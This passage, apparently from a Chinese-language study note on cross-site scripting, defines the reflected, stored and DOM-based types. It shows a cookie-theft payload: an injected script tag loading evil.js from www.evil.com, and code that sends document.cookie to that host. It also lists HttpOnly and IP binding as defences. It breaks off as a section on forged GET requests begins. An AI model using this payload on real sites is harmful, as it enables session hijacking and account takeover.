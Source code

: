 # XSS 

> 跨站脚本攻击(XSS，Cross site Script) ： 通常指黑客通过 html注入 篡改了网页，在网页中插入了恶意脚本，从而使得用户在浏览网页的时候控制用户浏览器的一种攻击
>
> **XSS根据效果可以分为以下几类：**
>
> - **反射型XSS - ** 简单的将用户输入的数据“反射”给浏览器，这种情况下，黑客需要诱导用户点击某些恶意链接才能攻击成功
> - **存储型XSS - ** 会将用户输入的数据存在服务器端，具有很强的稳定性，黑客发表博客文章发表后，所有访问博客的用户，都会在浏览器中执行脚本，黑客将脚本存在服务端
> - **DOM Based XSS - ** 实际上也属于反射型XSS，但是这种XSS是通过修改页面的DOM节点形成的XSS，所以称之为DOM Based XSS,、

## 1 XSS Payload

### 1.1 Cookie偷取

#### 1.1.1 攻击方式

> JavaScript脚本，攻击成功后，攻击者能够对用户当前浏览的界面植入恶意代码，通过恶意脚本，控制用户的浏览器，一个最常见的XSS Payload就是通过读取浏览器Cookie对象，发起Cookie劫持

 ```html
 http://www.a.com/test.htm?abc="><script src=http://www.evil.com/evil.js></script>
 ```

远程脚本`evil.js`如下：

```javascript
//在页面中插入一张看不见的图片，同时将docunment.cookie对象作为参数发送到了远程服务器

var img = document.createElement("img");

img.src = "http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```

然后我们就能窃取到Cookie,将偷到的Cookie填入浏览器，就能直接登入被攻击者的账户

#### 1.1.2 防御Cookie偷取

- 网站在Set-Cookie时给关键的Cookie植入标识HttpOnly;
- 将Cookie与客户端IP绑定

从而使得窃取到的Cookie变为无意义的Cookie

### 1.2 构造GET和POST请求

> 一个网站的应用，只需要接受HTTP协议中的GET和POST请求就能完成所有的操作，对于攻击者而言，通过JavaScript就能让浏览器发起这两种请求

#### 1.2.1 攻击方式

##### 1.2.1.1 GET请求

GET请求时直接传递参数

删除一篇博文：
